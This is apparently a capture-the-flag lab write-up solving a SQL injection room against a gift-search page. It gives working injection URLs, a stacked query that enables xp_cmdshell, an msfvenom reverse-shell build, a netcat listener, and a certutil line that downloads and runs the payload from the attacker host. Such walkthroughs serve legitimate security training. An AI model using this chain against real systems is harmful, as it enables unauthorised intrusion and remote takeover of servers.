







# Inject the Halls with EXEC Queries

## Solution
- Hit "Start Machine" and navigate to http://IP.
- Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature? 



- Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
Inject a single quote on the "age" parameter to get the error.
```bash
http://10.10.234.198/giftresults.php?age=teenager%27&interests=toys&budget=80
```



- Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
Inject the payload ' or 1=1;-- into the "age" parameter.
```bash
http://10.10.234.198/giftresults.php?age=teenager%27%20or%201=1;--&interests=toys&budget=80
```



- What flag is in the note file Gr33dstr left behind on the system?
Enable xp_cmdshell injecting a stacked-query into the "age" parameter.
```bash
Payload:
'; EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
http://10.10.234.198/giftresults.php?age=teenager%27;%20EXEC%20sp_configure%20%27show%20advanced%20options%27,%201;RECONFIGURE;EXEC%20sp_configure%20%27xp_cmdshell%27,%201;RECONFIGURE;--&interests=toys&budget=80
```
Prepare a reverse shell with msfvenom.
```bash
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.170.28 LPORT=4444 -f exe -o rev.exe
```
Start the netcat listener.
```bash
nc -lvnp 4444
```
Host the rev.exe file on the attacker machine.
```bash
python -m http.server 8888
```
Download and execute the rev.exe on the target machine through SQL injection.
Payload:
```bash
'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.8.170.28:8888/rev.exe C:\Windows\Temp\rev.exe'; EXEC xp_cmdshell 'C:\Windows\Temp\rev.exe';--
http://10.10.234.198/giftresults.php?age=teenager%27;%20EXEC%20xp_cmdshell%20%27certutil%20-urlcache%20-f%20http://10.8.170.28:8888/rev.exe%20C:\Windows\Temp\rev.exe%27;%20EXEC%20xp_cmdshell%20%27C:\Windows\Temp\rev.exe%27;--&interests=toys&budget=80
```



Browse C:\Users\Administrato\Desktop to find the flag.
```bash
type Note.txt
```



- What is the flag you receive on the homepage after restoring the website?
To restore the website just run the suggested bat script.
```bash
restore_website.bat
```




